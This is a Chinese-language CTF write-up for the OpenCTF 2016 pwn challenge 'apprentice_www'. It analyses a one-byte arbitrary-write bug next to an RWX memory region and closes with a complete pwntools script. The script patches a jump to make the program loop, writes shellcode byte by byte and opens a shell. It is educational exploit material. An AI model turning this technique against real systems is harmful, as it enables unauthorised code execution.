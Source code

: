 <!--yml
category: 未分类
date: 2022-04-26 14:40:44
-->

# Openctf-2016-pwn-apprentice_www 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/113714481](https://blog.csdn.net/A951860555/article/details/113714481)

# 文件信息

该样本来自2016年Openctf的一道pwn题–[apprentice_www](https://download.csdn.net/download/A951860555/15120752)
检查文件信息：
  32位小端程序，只开启NX保护
![check](img/b30641e9bd1a811cdde1ada8bf41e03e.png)

# 漏洞定位

![main](img/010aaddace995fbaaed1a0b6c38f5df3.png)
程序main函数如上图所示，setup函数中使用了mprotect开辟了一个可写、可读以及可执行的内存区域，其截图如下；加上checksec信息中的NX保护，其实这里已经暗示了将shellcode存储在此然后执行的漏洞利用方法。
![setup](img/25b1348c9530c6cc3170c95e4cc70bea.png)
接下来我们看一下butterflySwag函数，如下图所示，其中第一个scanf函数以%u的方式读取第一次输入，第二个scanf函数以%d的方式读取第二次输入，再结合下面两行代码，我们可以理解为该程序将v2（单字节）复制到v1指向的内存地址中。最后还剩下一堆puts打印文字信息，但没有啥实际的用处。
![butterflySwag](img/411e24f83c288caeb15909384218d2fc.png)

# 利用分析

结合上面的分析，我们可以很轻松的想到ret2shellcode的方法，通过上面两个scanf函数，将shellcode注入到mprotect开辟的可写可执行内存空间。定位该空间可以直接通过动态调试，如下图所示，最开始的两行输出展示了该内存区块的信息。
![vmmap](img/1e2bbae2b377ccfe6b71287aa99a2b3b.png)

但有个问题就是一次运行只能读取一个字节，所以这里需要先改变程序运行逻辑，尝试循环执行scanf函数，待正确读入shellcode后跳转到存储的地址执行shellcode。最后还需要注意的一个问题是读入的shellcode是以%d读取的，所以此时不能以字母的形式进行输入，也就是说如果要读入`a`字符，应将其转化为`61`（当然作为输入，类型还是字符串，也就是输入61这个字符串)，这样存储在内存中的自然就是`61`，否则scanf函数读取出错。

# wp

```
from pwn import *

context.log_level = "debug"
p = process("./apprentice_www")

jnz_addr = 0x080485DA
text_addr = 0x080485DB  

context(os="linux", arch="i386")
code = asm(shellcraft.sh())
code = code.decode("ISO-8859-1")

p.sendline(str(jnz_addr))
p.sendline(str(0xc2))    

for i in range(len(code)):
    p.sendline(str(text_addr+i))
    p.sendline(str(ord(code[i])))

p.sendline(str(jnz_addr))
p.sendline(str(0x00))
p.interactive() 
```

# 总结

该题目是传统shellcode漏洞利用的变形考法，虽然开启了NX保护，但又在程序中开辟了可写可执行的内存区域。为了增加难度，使用了scanf函数每次只能存储单个字节，并且需要自己想办法构造循环才能完整的存储shellcode。同时注意到%d和%u的格式化读取方式，该方式只能读取数字类型的字符串。